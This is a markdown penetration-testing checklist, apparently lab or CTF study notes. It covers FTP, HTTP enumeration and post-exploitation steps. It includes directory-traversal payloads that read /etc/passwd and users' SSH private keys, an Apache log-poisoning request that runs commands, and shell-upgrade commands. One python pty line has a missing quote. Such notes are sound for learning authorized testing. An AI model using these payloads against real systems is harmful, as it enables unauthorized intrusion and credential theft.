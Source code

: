 #Services
# ftp 21:
- [ ] check anonymous access - user and passwd = anonymous
- [ ] if we don't get results with ls or ls -a try command quote PAS and try ls
# http 80:
- [ ] manual inspection (firefox) and source analysis code
- [ ] wfuzz dirbust/parameter
- [ ] nikto
## [[directory traversal]]
## etc/passwd 
- [ ] `/cgi-bin/../../../../../../../../../../../../etc/passwd`
- [ ] `/index.php?page=../../../../../../../../../../../../../etc/passwd`
## ssh id_rsa
- [ ] `/cgi-bin/../../../../../../../../../../../../home/username/.ssh/id_rsa`
- [ ] `/index.php?page=/../../../../../../../../../../../../home/username/.ssh/id_rsa`
- [ ] `chmod 600 id_rsa`
## log poisoning
#log-posoning
- [ ] `index.php?page=../../../../../../../../../var/log/apache2/access.log`
- [ ] `index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps`
- [ ] url encode command 

# post exploitation 

## [[fully interactive shell]]
- [ ] `which python`
- [ ] check if we have tty `tty`
- [ ]  `python -c 'import pty;pty.spawn("/bin/bash)`
- [ ] exports the paths `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp`
- [ ] `export TERM=xterm-256color`
- [ ] `alias ll='clear ; ls -lsaht --color=auto'`
- [ ] <ctrl+z> + `stty raw -echo ; fg ; reset `
- [ ]  `stty columns 200 rows 200`

## check directories 
- [ ] check root file system 
- [ ] check users 
- [ ] check if we have mysql 
- [ ] check if we have permission to write `var/tmp`
- [ ] check `/dev/shm`

## check net 
- [ ] check network `netstat -tunlp` 
	look for `127.0.0.1:<ports>` that don't come out from external research

## check processes
- [ ] `ps aux | grep -i 'root' color=auto`
	check after the square brackets 


